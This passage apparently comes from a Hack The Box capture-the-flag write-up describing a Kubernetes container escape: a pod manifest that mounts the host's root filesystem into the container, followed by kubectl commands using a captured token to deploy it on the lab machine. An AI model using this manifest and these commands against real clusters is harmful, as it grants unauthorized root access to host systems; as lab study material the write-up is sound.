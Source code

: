 #### Strategy

Just like in [Unobtainium](/2021/09/04/htb-unobtainium.html#filesystem-as-
root), the trick here is to create a pod (container) that has the root file
system mapped into it. Then I can execute in the pod, and access the mapped
volume, which is the full file system of the host.

#### Pod Description

I’ll grab the same YAML I used in Unbotainium, and update it for this
scenario:

    
    
    apiVersion: v1 
    kind: Pod
    metadata:
      name: 0xdf-pod
      namespace: default
    spec:
      containers:
      - name: 0xdf-pod
        image: nginx:1.14.2
        volumeMounts: 
        - mountPath: /mnt
          name: hostfs
      volumes:
      - name: hostfs
        hostPath:  
          path: /
      automountServiceAccountToken: true
      hostNetwork: true
    

The `name` is arbitrary. The `namespace` is the one I’ve been working out of,
`default`. I’ll use the image that already exists here, `nginx:1.14.2`. The
rest is just setting up the `volumes` / `volumeMounts`. The `volumeMount` says
that I’m going to mount a `volume` named `hostfs` into the container at the
mount point `/mnt`. Then that volume is defined as `/` on the host file
system.

#### Execute Pod

`kubectl apply` is used to start the pod:

    
    
    oxdf@hacky$ kubectl apply -f evil-pod.yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
    pod/0xdf-pod created
    
    oxdf@hacky$ kubectl get pod --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
    NAME       READY   STATUS    RESTARTS   AGE
    0xdf-pod   1/1     Running   0          13s
    nginx      1/1     Running   0          15h
    